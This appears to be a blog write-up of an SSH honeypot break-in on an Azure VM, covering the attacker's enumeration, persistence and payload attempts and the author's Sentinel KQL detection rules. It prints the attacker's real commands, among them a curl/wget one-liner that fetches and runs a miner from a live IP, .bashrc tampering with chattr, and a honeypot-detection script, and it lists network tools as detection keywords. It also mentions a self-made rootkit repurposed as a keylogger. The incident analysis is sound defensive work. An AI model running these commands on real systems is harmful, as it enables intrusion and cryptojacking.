





Someone broke into my Azure honeypot
I left a real shell exposed on an Azure VM to see what would find it. A botnet did
within hours. It logged in as admin, spent 45 minutes trying to
establish persistence, and attempted to run a miner out of /dev/shm.
Two controls stopped it. This is everything the sensors saw.
My Lab
The honeypot runs real OpenSSH on port 22. My admin access
(azureuser) is on 2222 and IP-restricted, avoiding overlap. I had three
sensors hooked up:
sshdauth logsauditdviaaudisp-syslog- a modified version of
rk-veil, a rootkit I previously made, now repurposed as a keylogger for interactive sessions. I chose this to be my keylogger as self-hiding would be extremely useful for making sure attackers wouldn't notice the keylogging.
All of these were fed to the pipeline: rsyslog → Azure Monitor Agent →
Log Analytics → Sentinel. I made 5 custom KQL analytics rules each with its own
entity mapping and ATT&CK tagging. I then set up a dummy admin account
with no real permissions.
In the earlier stages of this project, I planned on using Cowrie, a low-interaction
SSH honeypot. I decided against this as I'd be missing out on real execve records, real
post-exploitation telemetry, and rules that would transfer to production. This proved to
be the right choice in the end as the attacker had set up a script to detect Cowrie-style
honeypots.
Someone Broke In
A few hours after I gave my honeypot a dummy admin with a weak password,
I got my first break-in. All times below are on 16/8/2026 in UTC.
12:30:12.000 AM: Brute force into admin from
195.178.110.228 was detected by a rule I implemented in Defender.
12:39:40.000 AM: They successfully got in.
Enumeration
12:39:42.051 AM: Now enumeration starts. The commands the attacker ran can be split into 3 categories.
Host & OS
uname -s -v -n -m
uname -m
cat /proc/uptime
lastCPU capacity
nproc
lscpu
awk -F: '/Model name/ {print $2}', grep -m1 -E '^model name' /proc/cpuinfo
cut -d: -f2-
grep -m1 -E '^Hardware' /proc/cpuinfo
cat /proc/device-tree/model
sed s/ AArch64 Processor$//; s/ Processor$//; s/ CPU$//GPU detection
lspci | grep -i vga
grep -i nvidia
busybox lspci | grep -i nvidiaNote: some commands were hex-encoded such as the sed one so I had to run
xxd to figure out what they meant.
echo "2F4D6F64656C206E616D652F207B7072696E742024327D" | xxd -r -p
/Model name/ {print $2}Another one I had to decode showed an interesting script:
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:$PATH
uname=$(uname -s -v -n -m 2>/dev/null || /bin/uname -s -v -n -m 2>/dev/null || /usr/bin/uname -s -v -n -m 2>/dev/null || busybox uname -s -v -n -m 2>/dev/null || ( [ -f /proc/version ] && head -1 /proc/version | cut -d' ' -f1 ) || ( [ -f /etc/os-release ] && grep '^ID=' /etc/os-release | cut -d= -f2 | tr -d '"' ) || echo "")
arch=$(uname -m 2>/dev/null || /bin/uname -m 2>/dev/null || /usr/bin/uname -m 2>/dev/null || busybox uname -m 2>/dev/null || ( [ -f /proc/cpuinfo ] && grep -q "lm" /proc/cpuinfo && echo x86_64 ) || ( [ -f /proc/cpuinfo ] && grep -q "CPU architecture: 8" /proc/cpuinfo && echo aarch64 ) || ( [ -f /proc/cpuinfo ] && grep -q "CPU architecture: 7" /proc/cpuinfo && echo armv7l ) || echo "")
uptime=$(cat /proc/uptime 2>/dev/null || busybox cat /proc/uptime 2>/dev/null)
cpus=$(nproc 2>/dev/null || /usr/bin/nproc 2>/dev/null || busybox nproc 2>/dev/null || grep -c "^processor" /proc/cpuinfo 2>/dev/null)
cpu_model=$( { lscpu 2>/dev/null | awk -F: '/Model name/ {print $2}'; grep -m1 -E "^model name" /proc/cpuinfo 2>/dev/null | cut -d: -f2-; grep -m1 -E "^Hardware" /proc/cpuinfo 2>/dev/null | cut -d: -f2-; cat /proc/device-tree/model 2>/dev/null; } | sed '/^$/d; /unknown/d; s/^[[:space:]]*//; s/[[:space:]]*$//; s/ AArch64 Processor$//; s/ Processor$//; s/ CPU$//' | head -1 )
gpu_info=$( (lspci 2>/dev/null | grep -i vga; lspci 2>/dev/null | grep -i nvidia; busybox lspci 2>/dev/null | grep -i vga; busybox lspci 2>/dev/null | grep -i nvidia) 2>/dev/null )
last_output=$(last 2>/dev/null)
filter_output=$( ( export LANG=C LC_ALL=C; echo '===SHELL_BEHAVIOR==='; printf 'path_err='; ( ./xxxxxx 2>&1 || true ) | ( head -c 250 2>/dev/null || busybox head -c 250 2>/dev/null || dd bs=250 count=1 2>/dev/null ) | ( tr -d '\n' 2>/dev/null || busybox tr -d '\n' 2>/dev/null || cat ); printf '\n'; printf 'cmd_err='; ( xxxxxx 2>&1 || true ) | ( head -c 250 2>/dev/null || busybox head -c 250 2>/dev/null || dd bs=250 count=1 2>/dev/null ) | ( tr -d '\n' 2>/dev/null || busybox tr -d '\n' 2>/dev/null || cat ); printf '\n'; printf 'execute_err='; out=$(bash -c 'printf "#!/bin/bash\necho \"xxxxxx\"\n" > filter && chmod +x filter && ./filter && rm -rf filter' 2>&1); case "$out" in *xxxxxx*) ;; *) out=$(/bin/bash -c 'printf "#!/bin/bash\necho \"xxxxxx\"\n" > filter && chmod +x filter && ./filter && rm -rf filter' 2>&1); case "$out" in *xxxxxx*) ;; *) out=$(/usr/bin/bash -c 'printf "#!/bin/bash\necho \"xxxxxx\"\n" > filter && chmod +x filter && ./filter && rm -rf filter' 2>&1); case "$out" in *xxxxxx*) ;; *) out=$(busybox sh -c 'printf "#!/bin/sh\necho \"xxxxxx\"\n" > filter && chmod +x filter && ./filter && rm -rf filter' 2>&1 || sh -c 'printf "#!/bin/sh\necho \"xxxxxx\"\n" > filter && chmod +x filter && ./filter && rm -rf filter' 2>&1); esac; esac; esac; printf '%s' "$out" | ( head -c 250 2>/dev/null || busybox head -c 250 2>/dev/null || dd bs=250 count=1 2>/dev/null ) | ( tr -d '\n' 2>/dev/null || busybox tr -d '\n' 2>/dev/null || cat ); printf '\n'; echo '===DONE===' ) 2>&1 )
echo "UNAME:$uname"
echo "ARCH:$arch"
echo "UPTIME:$uptime"
echo "CPUS:$cpus"
echo "CPU_MODEL:$cpu_model"
echo "GPU:$gpu_info"
echo "LAST:$last_output"In some honeypots, custom wget and curl are made and placed
within /usr/local/bin so that, when wget or curl
are called, the custom programs are run instead and attackers can't download malware.
The first half of the script uses the absolute path instead to avoid this rerouting and
run the actual command.
After that, the filter_output section does three things.
path_err=( ./xxxxxx 2>&1 ) → run a non-existent file by path
cmd_err=( xxxxxx 2>&1 ) → run a non-existent command
execute_err=printf a script > filter && chmod +x && ./filter && rm -rf filterIt checks the error messages for the first 2 and whether it's possible to run a short executable in the current directory which acts as a honeypot check. Emulated shells can't write a file, mark it as executable, run it, and return its output. This honeypot is a genuine shell so it passes and the attacker continues.
Persistence
12:39:50.092 AM: The first thing the attacker did here was the following command but hex-encoded:
sed -i '/\[\[ $- != \*i\* \]\]/d' /home/admin/.bashrcThis removes [[ $- != *i* ]] && return from
.bashrc, a script that runs every time a bash terminal session starts.
$- holds the shell's active flags and interactive shells include
i. This line makes it so that if the shell is not interactive, it'll stop
reading the file past that point. Since the attacker works purely non-interactively (all
commands piped over SSH), removing this would allow them to make anything that they
append to .bashrc execute on every non-interactive shell, including their
own ssh host 'command' sessions.
This failed and .bashrc remained unmodified which prevented the attacker from
running the next few scripts that they attempted to append.
After this, the attacker ran a variant of the script below up until 1:25:00.214 AM, all the while continuing with payload retrieval and the rest of the attack.
bash -c '
line="[[ \$- != *i* ]]"
sed -i "/$(echo "$line" | sed 's/\[/\\[/g; s/\]/\\]/g; s/\*/\\*/g')/d" $HOME/.bashrc 2>/dev/null
sed -i "/$(echo "$line" | sed 's/\[/\\[/g; s/\]/\\]/g; s/\*/\\*/g')/d" $HOME/.zshrc 2>/dev/null
chattr +i $HOME/.bashrc $HOME/.zshrc 2>/dev/null || true
'This attempted to do what I mentioned above to both .bashrc and
.zshrc, and then chattr would set the immutable flag on both files, locking
me out of making changes to them. The script also suppresses errors with
2>/dev/null || true.
Interestingly, this script ran 2093 times across only 3 SSH sessions. This suggests that it was likely a retry loop with no exit condition on success.
Escalation
12:39:43.184 AM: 100 sudo -S invocations were
done, spread across 33 minutes, each supplying the password. They re-ran the enumeration
process under sudo to see if they could get more info but each time they
were met with the following message:
sudo: admin : user NOT in sudoers ;They then tried to change the password 8 times presumably to lock me out but failed.
Payload Retrieval and Execution
Below is the sequence of commands in which the attacker attempted to retrieve and execute the payload.
12:40:03.002 scp -qt /dev/shm/.16 push attempt (0 bytes)
12:40:07.928 sudo -S chmod +x /dev/shm/.16 failed
12:40:09.970 chmod +x /dev/shm/.16 as admin
12:40:10.880 sudo -S sh -c '/dev/shm/.16' failed
12:40:12.658 sudo -S /dev/shm/.16 failed
12:40:14.716 sh -c '/dev/shm/.16' as admin
12:40:14.716 /dev/shm/.16 executed (empty file)
12:40:18.011 sudo -S rm -rf /dev/shm/.16 failed
12:40:19.891 rm -rf /dev/shm/.16 as admin
12:40:25.614 curl ... first fetch attempt (×4, to 01:26)
12:49:37.155 wget ... (×4, to 01:35)The attacker attempted to move the payload using scp -qt /dev/shm/.16.
This was in sink mode, which meant that they pushed the file from their end over the SSH
channel rather than pulling it from the VM. The file was created but was notably empty.
Egress filtering stops pull-based delivery and usually does nothing about push, so the
transfer should have worked. The logs showed why it didn't. Three SFTP requests were
refused because there was a missing Subsystem sftp line in a config I'd
written for an entirely different reason. This part wasn't something I designed on
purpose. Had it been there, the payload most likely would have landed.
The attacker then attempted to execute the file with
chmod +x /dev/shm/.16, and /dev/shm/.16, plus
sudo -S variants. Once these all failed, the attacker removed the file.
After, they tried to fetch the payload with the following command which was blocked by
the NSG deny-all outbound rule.
cd /dev/shm && (
curl -Lko .16 --retry 3 --retry-delay 3 --retry-connrefused \
http://5.189.149.171/f/brute/m/.16_$(uname -m)
|| wget --tries=3 --wait=3 --no-check-certificate -O .16 \
http://5.189.149.171/f/brute/m/.16_$(uname -m)
) && chmod +x .16 && ./.16 && rm -rf .16Attack Conclusion
The sed and chattr loop kept going up until
1:25:00.214 AM. After all this, they did
bash -c chattr -i $HOME/.bashrc $HOME/.zshrc 2>/dev/null || true as
cleanup. This removes the immutable flag rather than setting it, which is the reverse of
what they'd spent the previous 45 minutes attempting. They then did curl,
and wget once more before giving up.
This attack led to nothing for the attacker because of 2 main controls. The NSG
Deny-All Outbound rule prevented any payload downloads. admin was also
created with no sudo rights, so any escalation attempt was refused by
sudoers. These controls are pretty basic but they're the kind of thing that matter most
and are usually "set and forget".
Attacker & Malware Analysis
So what can this tell us about the attacker? The attacker was most likely an IoT
botnet due to certain commands like busybox lspci (a lightweight binary for
embedded devices), cat /proc/device-tree/model (ARM-only), and
sed 2F5E242F... which strips AArch64 Processor from the CPU string.
I also ran the
http://5.189.149.171/f/brute/m/.16_$(uname -m) URL through
Hybrid Analysis which allowed me to have a deeper look into the kind of malware they
attempted to plant.


3/24 Metadefender vendors have flagged this file, attributing it to a generic 'Linux Bitcoin miner'. 14/92 vendors on VirusTotal also noted it as malicious. Looking the IP up on AbuseIPDB also showed a comment posted 1 month ago by user SIGSEC stating that they found an XMRig Monero cryptominer from the IP on 13/07/2026.
The Detection Gap
After going through my first attack, I've realised a couple of issues about my current
setup. Over 12000 sed and chattr process executions from the
persistence block running 2093 times represented the greatest anomaly, yet I had no rules
to cover this. All of my rules so far match strings and paths rather than the volume of
commands.
Another gap was how auditd stores arguments. It stored some arguments for
sed and bash as hex-encoded strings to prevent parsing from
breaking since records are space-delimited. My recon rules looked for binaries by name,
so a bash -c 'hex(...)' wrapping a command my rule should have caught
wouldn't trigger them. I also had to decode by hand using xxd throughout the
investigation, and with the number of different HEX strings, it was inefficient.
The Forensic Process
I was able to get all this info by running the following KQL queries:
Syslog
| where TimeGenerated >= todatetime('2026-08-16T00:39:40.986059Z')
| where SyslogMessage has "type=SYSCALL" or SyslogMessage has "type=EXECVE"
| extend AuditId = extract(@"msg=audit\([\d\.]+:(\d+)\)", 1, SyslogMessage)
| extend Auid = extract(@"(?:^|\s)auid=(\d+)", 1, SyslogMessage)
| extend Exe = extract(@"(?:^|\s)exe=""([^""]+)""", 1, SyslogMessage)
| extend Args = extract(@"argc=\d+ (.*)$", 1, SyslogMessage)
| extend Ppid = extract(@"(?:^|\s)ppid=(\d+)", 1, SyslogMessage)
| summarize
Auid = take_anyif(Auid, isnotempty(Auid)),
Exe = take_anyif(Exe, isnotempty(Exe)),
Args = take_anyif(Args, isnotempty(Args)),
Ppid = take_anyif(Ppid, isnotempty(Ppid)),
EventTime = min(TimeGenerated)
by AuditId
| where Auid == "1003"
| where Exe !startswith "/etc/update-motd.d/"
| where Args !contains "update-motd"
| where Args !contains "landscape"
| where Args !contains "update-notifier"
| where Args !contains "release-upgrade"
| serialize
| sort by EventTime asc
| extend Cmd = strcat(Exe, " ", Args)
| extend IsNew = iff(Cmd == prev(Cmd), 0, 1)
| extend RunId = row_cumsum(IsNew)
| summarize
Count = count(),
FirstSeen = min(EventTime),
LastSeen = max(EventTime),
Exe = take_any(Exe),
Args = take_any(Args),
Ppid = take_any(Ppid)
by RunId
| project FirstSeen, LastSeen, Count, Exe, Args, Ppid
| order by FirstSeen ascSyslog
| where TimeGenerated >= todatetime('2026-08-16T00:39:40.986059Z')
| where SyslogMessage has "type=SYSCALL" or SyslogMessage has "type=EXECVE"
| extend AuditId = extract(@"msg=audit\([\d\.]+:(\d+)\)", 1, SyslogMessage)
| extend Auid = extract(@"(?:^|\s)auid=(\d+)", 1, SyslogMessage)
| extend Exe = extract(@"(?:^|\s)exe=""([^""]+)""", 1, SyslogMessage)
| extend Args = extract(@"argc=\d+ (.*)$", 1, SyslogMessage)
| summarize
Auid = take_anyif(Auid, isnotempty(Auid)),
Exe = take_anyif(Exe, isnotempty(Exe)),
Args = take_anyif(Args, isnotempty(Args)),
EventTime = min(TimeGenerated)
by AuditId
| where Auid == "1003"
| summarize Count = count(), FirstSeen = min(EventTime), LastSeen = max(EventTime) by Exe, Args
| order by FirstSeen ascSetting Up
KQL Rules
This was my first time writing up KQL rules so it took some time figuring out.
1. SSH Unauthorized Connection Attempt
Detects SSH brute-force attempts. Aggregates failed auth events into hourly bins by IP, alerting when a single one exceeds 20 failures in one hour. Collects the set of targeted usernames to distinguish root-only brute-forcing from dictionary spraying.
Syslog
| where Computer == "vm-sentinel-sandbox"
| where Facility in ("auth", "authpriv")
| where SyslogMessage has_any ("Failed password", "Invalid user")
| extend SrcIP = extract(@"from ([0-9\.]+)", 1, SyslogMessage)
| extend TargetUser = extract(@"for (invalid user )?([^\s]+)", 2, SyslogMessage)
| summarize FailedCount = count(), TargetUsers = make_set(TargetUser, 20) by SrcIP, bin(TimeGenerated, 1h), Computer
| where FailedCount > 202. Critical System File Tampering
Detects unauthorised modifications/access to critical authentication files
(/etc/passwd, /etc/shadow, /etc/sudoers) by
non-admin accounts.
Syslog
| where Computer == "vm-sentinel-sandbox"
| where SyslogMessage has "type=PATH" or SyslogMessage has "type=SYSCALL"
| extend IsSyscall = SyslogMessage has "type=SYSCALL"
| extend AuditId = extract(@"msg=audit\([\d\.]+:(\d+)\)", 1, SyslogMessage)
| extend Auid = extract(@"(?:^|\s)auid=(\d+)", 1, SyslogMessage)
| extend AuidName = extract(@"(?:^|\s)AUID=""([^""]+)""", 1, SyslogMessage)
| extend Uid = iff(IsSyscall, extract(@"(?:^|\s)uid=(\d+)", 1, SyslogMessage), "")
| extend Euid = iff(IsSyscall, extract(@"(?:^|\s)euid=(\d+)", 1, SyslogMessage), "")
| extend Exe = extract(@"(?:^|\s)exe=""([^""]+)""", 1, SyslogMessage)
| extend Syscall = extract(@"(?:^|\s)SYSCALL=(\w+)", 1, SyslogMessage)
| extend Success = iff(IsSyscall, extract(@"(?:^|\s)success=(\w+)", 1, SyslogMessage), "")
| extend TargetFile = extract(@"(?:^|\s)name=""([^""]+)""", 1, SyslogMessage)
| summarize
Exe = take_anyif(Exe, isnotempty(Exe)),
Auid = take_anyif(Auid, isnotempty(Auid)),
AuidName = take_anyif(AuidName, isnotempty(AuidName)),
Uid = take_anyif(Uid, isnotempty(Uid)),
Euid = take_anyif(Euid, isnotempty(Euid)),
Syscall = take_anyif(Syscall, isnotempty(Syscall)),
Success = take_anyif(Success, isnotempty(Success)),
Files = make_set_if(TargetFile, isnotempty(TargetFile), 10),
TimeGenerated = min(TimeGenerated)
by AuditId, Computer
| where Auid !in ("1000", "4294967295")
| where Files has_any ("/etc/passwd", "/etc/shadow", "/etc/sudoers")
| extend BaseCmd = tostring(split(Exe, "/")[-1])
| where BaseCmd !in ("cron", "sshd", "systemd", "systemd-logind", "agetty", "login", "useradd", "usermod")
| extend PrivEsc = iff(Auid !in ("0", "4294967295") and Euid == "0", "Yes", "No")
| extend PrimaryFile = tostring(Files[0])
| project TimeGenerated, Computer, AuidName, Auid, Uid, Euid, PrivEsc, BaseCmd, Exe, Syscall, Success, PrimaryFile, Files3. Suspicious Command Execution & Discovery
Detects executed post-exploitation recon commands (whoami, id, uname, nc).
Syslog
| where Computer == "vm-sentinel-sandbox"
| where SyslogMessage has "type=SYSCALL" or SyslogMessage has "type=EXECVE"
| extend IsSyscall = SyslogMessage has "type=SYSCALL"
| extend AuditId = extract(@"msg=audit\([\d\.]+:(\d+)\)", 1, SyslogMessage)
| extend Auid = extract(@"(?:^|\s)auid=(\d+)", 1, SyslogMessage)
| extend AuidName = extract(@"(?:^|\s)AUID=""([^""]+)""", 1, SyslogMessage)
| extend Uid = iff(IsSyscall, extract(@"(?:^|\s)uid=(\d+)", 1, SyslogMessage), "")
| extend Euid = iff(IsSyscall, extract(@"(?:^|\s)euid=(\d+)", 1, SyslogMessage), "")
| extend Exe = extract(@"(?:^|\s)exe=""([^""]+)""", 1, SyslogMessage)
| extend Comm = extract(@"(?:^|\s)comm=""([^""]+)""", 1, SyslogMessage)
| extend Success = iff(IsSyscall, extract(@"(?:^|\s)success=(\w+)", 1, SyslogMessage), "")
| extend Args = extract(@"argc=\d+ (.*)$", 1, SyslogMessage)
| summarize
Exe = take_anyif(Exe, isnotempty(Exe)),
Comm = take_anyif(Comm, isnotempty(Comm)),
Auid = take_anyif(Auid, isnotempty(Auid)),
AuidName = take_anyif(AuidName, isnotempty(AuidName)),
Uid = take_anyif(Uid, isnotempty(Uid)),
Euid = take_anyif(Euid, isnotempty(Euid)),
Success = take_anyif(Success, isnotempty(Success)),
Args = take_anyif(Args, isnotempty(Args)),
TimeGenerated = min(TimeGenerated)
by AuditId, Computer
| where Auid !in ("1000", "4294967295")
| extend BaseCmd = tostring(split(Exe, "/")[-1])
| where BaseCmd in ("whoami", "id", "uname", "nc", "ncat", "netcat", "wget", "curl",
"nmap", "tftp", "socat", "base64", "chattr", "insmod", "modprobe",
"rmmod", "lsmod", "hostname", "lscpu", "crontab")
| extend PrivEsc = iff(Auid !in ("0", "4294967295") and Euid == "0", "Yes", "No")
| project TimeGenerated, Computer, AuidName, Auid, Uid, Euid, PrivEsc, BaseCmd, Exe, Comm, Args, Success4. Execution From World-Writable Directory
Detects process execution from world-writable paths (/tmp, /var/tmp, /dev/shm).
Syslog
| where Computer == "vm-sentinel-sandbox"
| where SyslogMessage has "type=SYSCALL" or SyslogMessage has "type=EXECVE"
| extend IsSyscall = SyslogMessage has "type=SYSCALL"
| extend AuditId = extract(@"msg=audit\([\d\.]+:(\d+)\)", 1, SyslogMessage)
| extend Auid = extract(@"(?:^|\s)auid=(\d+)", 1, SyslogMessage)
| extend AuidName = extract(@"(?:^|\s)AUID=""([^""]+)""", 1, SyslogMessage)
| extend Uid = iff(IsSyscall, extract(@"(?:^|\s)uid=(\d+)", 1, SyslogMessage), "")
| extend Euid = iff(IsSyscall, extract(@"(?:^|\s)euid=(\d+)", 1, SyslogMessage), "")
| extend Exe = extract(@"(?:^|\s)exe=""([^""]+)""", 1, SyslogMessage)
| extend Comm = extract(@"(?:^|\s)comm=""([^""]+)""", 1, SyslogMessage)
| extend Success = iff(IsSyscall, extract(@"(?:^|\s)success=(\w+)", 1, SyslogMessage), "")
| extend Args = extract(@"argc=\d+ (.*)$", 1, SyslogMessage)
| summarize
Exe = take_anyif(Exe, isnotempty(Exe)),
Comm = take_anyif(Comm, isnotempty(Comm)),
Auid = take_anyif(Auid, isnotempty(Auid)),
AuidName = take_anyif(AuidName, isnotempty(AuidName)),
Uid = take_anyif(Uid, isnotempty(Uid)),
Euid = take_anyif(Euid, isnotempty(Euid)),
Success = take_anyif(Success, isnotempty(Success)),
Args = take_anyif(Args, isnotempty(Args)),
TimeGenerated = min(TimeGenerated)
by AuditId, Computer
| where Auid !in ("1000", "4294967295")
| extend ExeDir = strcat_array(array_slice(split(Exe, "/"), 0, -2), "/")
| where ExeDir in ("/tmp", "/var/tmp", "/dev/shm") or ExeDir startswith "/tmp/"
| project TimeGenerated, Computer, AuidName, Auid, Uid, Euid, ExeDir, Exe, Comm, Args, Success5. Credential Entry at Interactive Prompt
Detects credential input at interactive prompts (sudo, su,
passwd, ssh) via a kernel-space TTY hook. Password input never
